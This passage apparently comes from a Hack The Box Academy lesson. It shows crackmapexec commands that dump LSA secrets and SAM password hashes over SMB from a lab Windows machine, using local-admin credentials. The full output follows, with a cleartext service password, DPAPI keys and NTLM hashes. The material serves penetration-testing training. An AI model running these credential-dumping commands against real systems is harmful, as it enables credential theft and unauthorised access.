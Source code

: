
## Remote Dumping & LSA Secrets Considerations

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

#### Dumping LSA Secrets Remotely

Attacking SAM

```shell-session
frank-106@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```

#### Dumping SAM Remotely

We can also dump hashes from the SAM database remotely.

Attacking SAM

```shell-session
frank-106@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```

Practice each technique taught in this section while you work to complete the challenge questions.